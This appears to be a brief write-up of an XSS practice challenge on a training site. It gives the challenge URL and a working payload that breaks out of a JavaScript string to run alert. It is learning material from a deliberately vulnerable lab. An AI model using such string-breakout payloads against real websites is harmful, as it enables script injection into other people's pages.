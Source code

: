 Chall Url: http://www.zixem.altervista.org/XSS/10.php?name=

Payload: http://www.zixem.altervista.org/XSS/10.php?name=%27);alert`1337`//

![](https://user-images.githubusercontent.com/25671488/61406789-2eaeaa80-a8fa-11e9-9844-6b39dcafaa32.png)
